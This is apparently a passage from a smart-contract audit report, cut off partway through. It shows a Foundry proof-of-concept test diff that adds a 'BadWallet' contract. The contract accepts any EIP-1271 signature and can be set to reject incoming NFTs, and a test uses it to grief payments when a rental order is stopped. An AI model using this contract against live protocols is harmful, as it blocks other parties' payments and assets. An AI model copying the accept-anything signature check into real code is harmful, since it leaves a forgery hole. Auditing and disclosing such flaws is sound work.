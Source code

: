 >+++ b/test/integration/StopRent.t.sol
>@@ -7,6 +7,49 @@ import {OrderType, OrderMetadata, RentalOrder} from "@src/libraries/RentalStruct
>
> import {BaseTest} from "@test/BaseTest.sol";
>
>+import {Errors} from "@src/libraries/Errors.sol";
>+import {IERC721} from "@openzeppelin-contracts/token/ERC721/IERC721.sol";
>+import {IERC20} from "@openzeppelin-contracts/token/ERC20/IERC20.sol";
>+
>+contract BadWallet {
>+  bool receiveEnabled = true;
>+  address owner = msg.sender;
>+
>+  // To enable EIP-1271.
>+  // Normally isValidSignature actually validates if the signature is valid and from the owner.
>+  // This is not relevant to the PoC, so we just validate anything here.
>+  function isValidSignature(bytes32, bytes calldata) external pure returns (bytes4) {
>+    return this.isValidSignature.selector;
>+  }
>+
>+  function doApproveNFT(address target, address spender) external {
>+    require(msg.sender == owner);
>+    IERC721(target).setApprovalForAll(spender, true);
>+  }
>+
>+  function doApproveERC20(address target, address spender, uint256 amount) external {
>+    require(msg.sender == owner);
>+    IERC20(target).approve(spender, amount);
>+  }
>+
>+  function setReceiveEnabled(bool status) external {
>+    require(msg.sender == owner);
>+    receiveEnabled = status;
>+  }
>+
>+  function onERC721Received(
>+        address,
>+        address,
>+        uint256,
>+        bytes calldata
>+  ) external view returns (bytes4) {
>+    if (receiveEnabled)
>+      return this.onERC721Received.selector;
>+    else
>+      revert("Nope");
>+  }
>+}
>+
> contract TestStopRent is BaseTest {
>     function test_StopRent_BaseOrder() public {
>         // create a BASE order
>```
>
>Add the following test to `StopRent.t.sol`:
>
>```solidity
>    function test_stopRent_payOrder_inFull_stoppedByRenter_paymentGriefed() public {
>        vm.startPrank(alice.addr);
>        BadWallet badWallet = new BadWallet();
>        erc20s[0].transfer(address(badWallet), 100);
>        badWallet.doApproveNFT(address(erc721s[0]), address(conduit));
>        badWallet.doApproveERC20(address(erc20s[0]), address(conduit), 100);
>        vm.stopPrank();